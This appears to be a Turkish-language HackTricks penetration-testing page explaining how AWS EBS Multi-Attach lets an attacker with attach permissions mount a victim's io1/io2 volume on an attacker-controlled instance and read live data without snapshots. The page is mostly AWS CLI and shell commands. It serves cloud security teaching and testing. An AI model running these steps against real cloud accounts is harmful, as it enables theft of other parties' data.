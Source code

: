 # AWS - Live Data Theft via EBS Multi-Attach

{{#include ../../../../banners/hacktricks-training.md}}

## Özet
EBS Multi-Attach'i kötüye kullanarak aynı Availability Zone (AZ) içindeki saldırgan kontrollü bir instance'a aynı io1/io2 veri volume'unu bağlayıp canlı verileri okuyun. Paylaşılan volume'u salt-okunur olarak mount etmek, snapshot oluşturmadan kullanımda olan dosyalara anında erişim sağlar.

## Gereksinimler
- Hedef volume: saldırgan instance ile aynı AZ'de `--multi-attach-enabled` ile oluşturulmuş io1 veya io2.
- İzinler: hedef volume/instance'lar üzerinde `ec2:AttachVolume`, `ec2:DescribeVolumes`, `ec2:DescribeInstances`.
- Altyapı: Multi-Attach'i destekleyen Nitro-based instance types (C5/M5/R5 aileleri, vb.).

## Notlar
- Salt-okunur olarak `-o ro,noload` ile mount ederek bozulma riskini azaltın ve journal replay'lerini önleyin.
- Nitro instance'larda EBS NVMe cihazı kararlı bir `/dev/disk/by-id/nvme-Amazon_Elastic_Block_Store_vol...` yolu sunar (aşağıda yardımcı betik).

## Prepare a Multi-Attach io2 volume and attach to victim

Örnek (`us-east-1a`'da oluşturup hedefe bağlama):
```bash
AZ=us-east-1a
# Create io2 volume with Multi-Attach enabled
VOL_ID=$(aws ec2 create-volume \
--size 10 \
--volume-type io2 \
--iops 1000 \
--availability-zone $AZ \
--multi-attach-enabled \
--tag-specifications 'ResourceType=volume,Tags=[{Key=Name,Value=multi-shared}]' \
--query 'VolumeId' --output text)

# Attach to victim instance
aws ec2 attach-volume --volume-id $VOL_ID --instance-id $VICTIM_INSTANCE --device /dev/sdf
```
Hedefte, yeni volume'ü formatla/bağla ve hassas verileri yaz (örnek):
```bash
VOLNOHYP="vol${VOL_ID#vol-}"
DEV="/dev/disk/by-id/nvme-Amazon_Elastic_Block_Store_${VOLNOHYP}"
sudo mkfs.ext4 -F "$DEV"
sudo mkdir -p /mnt/shared
sudo mount "$DEV" /mnt/shared
echo 'secret-token-ABC123' | sudo tee /mnt/shared/secret.txt
sudo sync
```
## Aynı volume'u attacker instance'a bağlayın
```bash
aws ec2 attach-volume --volume-id $VOL_ID --instance-id $ATTACKER_INSTANCE --device /dev/sdf
```
## attacker üzerinde read-only mount yap ve verileri oku
```bash
VOLNOHYP="vol${VOL_ID#vol-}"
DEV="/dev/disk/by-id/nvme-Amazon_Elastic_Block_Store_${VOLNOHYP}"
sudo mkdir -p /mnt/steal
sudo mount -o ro,noload "$DEV" /mnt/steal
sudo cat /mnt/steal/secret.txt
```
Beklenen sonuç: Aynı `VOL_ID` birden fazla `Attachments` (victim and attacker) gösterir ve attacker, victim tarafından yazılmış dosyaları herhangi bir snapshot oluşturmadan okuyabilir.
```bash
aws ec2 describe-volumes --volume-ids $VOL_ID \
--query 'Volumes[0].Attachments[*].{InstanceId:InstanceId,State:State,Device:Device}'
```
<details>
<summary>Yardımcı: NVMe aygıt yolunu Volume ID ile bul</summary>

Nitro instances üzerinde, Volume ID'yi gömen kararlı by-id yolunu kullanın ( `vol`'dan sonraki tireyi kaldırın):
```bash
VOLNOHYP="vol${VOL_ID#vol-}"
ls -l /dev/disk/by-id/ | grep "$VOLNOHYP"
# -> nvme-Amazon_Elastic_Block_Store_volXXXXXXXX...
```
</details>

## Etkiler
- Hedef EBS hacmindeki canlı verilere, snapshots oluşturmadan anında okuma erişimi.
- Eğer read-write olarak bağlanmışsa, saldırgan kurbanın dosya sistemine müdahale edebilir (bozulma riski).

{{#include ../../../../banners/hacktricks-training.md}}
